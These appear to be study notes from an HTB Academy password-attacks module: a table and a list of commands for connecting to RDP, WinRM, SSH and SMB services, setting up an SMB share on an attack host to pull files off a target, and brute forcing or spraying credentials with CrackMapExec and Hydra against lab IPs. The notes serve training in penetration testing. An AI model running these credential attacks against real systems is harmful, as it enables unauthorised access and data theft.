 # Password Attacks

<figure><img src=".gitbook/assets/Untitled (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Network Services**

| Command                                                                                          | Description                                                                                                                                                            |
| ------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| xfreerdp /v:\<ip> /u:htb-student /p:HTB\_@cademy\_stdnt!                                         | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.                                                                                  |
| evil-winrm -i \<ip> -u user -p password                                                          | Uses Evil-WinRM to establish a Powershell session with a target.                                                                                                       |
| ssh user@\<ip>                                                                                   | Uses SSH to connect to a target using a specified user.                                                                                                                |
| smbclient -U user \\\\\\\\\<ip>\\\SHARENAME                                                      | Uses smbclient to connect to an SMB share using a specified user.                                                                                                      |
| python3 [smbserver.py](http://smbserver.py) -smb2support CompData /home/\<nameofuser>/Documents/ | Uses [smbserver.py](http://smbserver.py) to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |

* `CrackMapExec` (no longer maintained) `netexec` is recommended
  * `crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>` `crackmapexec winrm 10.129.42.197 -u user.list -p password.list` to get username and password
  * `crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares` to view available shares and what privileges we have
* **`Evil-WinRM` communicate with `winrm` service**
  * `evil-winrm -i <target-IP> -u <username> -p <password` if credentials are correct, terminal session is initialized using PowerShell Remoting Protocol (MS-PSRP)
* `Hydra` brute forcing tool
  * `hydra -L user.list -P password.list ssh://10.129.42.197`
  * `hydra -L user.list -P password.list rdp://10.129.42.197`
  * `hydra -L user.list -P password.list smb://10.129.42.197`


